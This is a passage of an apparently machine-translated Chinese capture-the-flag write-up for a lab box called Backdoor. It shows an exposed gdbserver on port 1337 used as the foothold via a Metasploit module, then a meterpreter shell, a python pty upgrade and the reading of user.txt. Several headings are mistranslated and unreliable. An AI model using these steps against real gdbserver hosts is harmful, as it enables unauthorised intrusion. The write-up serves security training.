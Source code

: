 使用 curl 监视进程

我们发现两件有趣的事情。1337 端口运行的是 gdbserver，这是我们立足之路。我们还可以看到 screen 正在运行一个分离的会话，我们稍后将回到这一点。

# 水表读数器

快速搜索 gdb 漏洞发现了[这篇](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/gdb/gdb_server_exec)关于 Metasploit 方法的文章。让我们试试:

![](img/ce3b3ec18546215c1d75b98af64e5298.png)

使用仪表指示器开发箱子

我们已经连接了一个会话，现在启动一个 shell:

```
meterpreter > shell
Process 2402 created.
Channel 1 created.
python3 -c "import pty;pty.spawn('/bin/bash')"
user@Backdoor:~$
```

# 用户标志

外壳稳定后，让我们抓住用户标志:

```
user@Backdoor:~$ id
id
uid=1000(user) gid=1000(user) groups=1000(user)

user@Backdoor:~$ ls -l
-rw-r----- 1 root user 33 Dec  9 23:17 user.txt

user@Backdoor:~$ cat user.txt
<HIDDEN>
```

